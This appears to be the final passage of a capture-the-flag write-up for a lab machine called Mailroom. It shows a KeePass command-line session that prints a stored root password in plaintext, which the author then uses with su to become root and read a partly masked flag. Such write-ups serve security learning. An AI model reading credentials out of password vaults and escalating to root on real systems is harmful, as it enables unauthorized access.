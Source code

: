 ```
1. GItea Admin account                                    git.mailroom.htb
2. gitea database password                                                
3. My Gitea Account                                       git.mailroom.htb
4. root acc                                                               
kpcli:/> show -f 4

Title: root acc
Uname: root
 Pass: a$gBa3!GA8
  URL: 
Notes: root account for sysadmin jobs
```

I can use this password to login as root and get the root flag.
```
$ su root
Password: 
root@mailroom:/home/matthew# cd /root/
root@mailroom:~# cat root.txt 
65dd6436*********
```